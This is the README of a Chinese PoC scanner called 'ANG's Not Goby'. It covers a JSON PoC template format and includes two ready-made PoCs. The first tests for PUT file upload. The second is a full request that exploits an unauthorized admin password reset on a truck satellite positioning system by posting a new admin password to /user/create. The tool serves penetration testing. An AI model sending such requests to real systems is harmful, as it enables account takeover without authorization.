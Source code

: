 ## ANG's Not Goby!



## 史上POC最简洁的漏洞复现工具（狗头保命）

独自开发的一款poc扫描、漏洞复现的工具，后续会去兼容goby以及其他工具的poc，**并且加入浏览器爬虫以及被动扫描功能，将来会陆续开发GUI版和BurpSuite插件版，目前处于测试版本**，这款工具的poc编写可能算是比较简洁明了的工具了

<img src="img\0.png">

使用的是JSON格式的POC，放在poc目录下面即可，代理可以用BurpSuite的代理，内容基本上是请求包内容，没有额外的东西，比较纯净

以下是模板poc

```
{
	#	漏洞名称
    "name": "",
    #	请求模式（目前支持get post put，但是还没验证过get，只用了post和put）
    "method": "",
    #	poc编写时间（不重要）
    "time": "",
    #	GET请求路径
    "path": "",
    #	可以设置梯子或者其他代理，默认使用burpsuite代理
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
     #	无需多言，请求头
    "headers": {
    },
    #	post以及put请求的data
    "data": "",
    #	用于检查是否存在漏洞
    "check": {
    	#	状态码
        "code":"200",
        #	返回包值的个数，不需要全写上，和下面的value个数对应上就ok
        "value_num": "0",
        #	返回包内容，例如true、200
        "value1":""
    }
}
```



```json
{
    "name": "PUT上传",
    "method": "PUT",
    "time": "2025/03/11",
    "path": "/test.txt",
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
        "X-Requested-With": "XMLHttpRequest",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Length": "4",
        "Connection": "keep-alive"
    },
    "data": "test",
    "check": {
        "code":"200",
        "value_num": "0",
        "value1":""
    }
}
```

```json
{
    "name": "卡车卫星定位系统create存在未授权密码重置漏洞",
    "method": "POST",
    "time": "2025/03/07",
    "path": "/user/create",
    "proxies": {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080"
        },
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36",
        "fieldContent-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "X-Requested-With": "XMLHttpRequest",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Connection": "close"
    },
    "data": {
        "account": "admin",
        "id": "1",
        "password": "test123456",
        "passwordRepeat": "test123456",
        "groupName": "111",
        "roleid": "5",
        "validend": "",
        "phone": "",
        "email": "",
        "chncount": "36",
        "flowType": "1",
        "oldFlowType": "",
        "flowVal": "",
        "flowAlarmVal": "",
        "oldFlowAlarmVal": "",
        "logContent": "111",
        "guid": "222",
        "token": "xxx"
    },
    "check": {
        "code":"200",
        "value_num": "1",
        "value1":"true"
    }
}
```

以下是基础的使用方法，os功能还在开发ing

<img src="img/1.png">

### scan 模块，-U是批量扫描，指定一个TXT文件

<img src="img\2.png">

-u 是指定一个目标进行扫描

<img src="img\3.png">

### download 模块

用于下载文件（目前支持http/https代理）

<img src="img/4.png">

用于下载文件，可以配合其他脚本爬取资源

<img src="img/5.png">

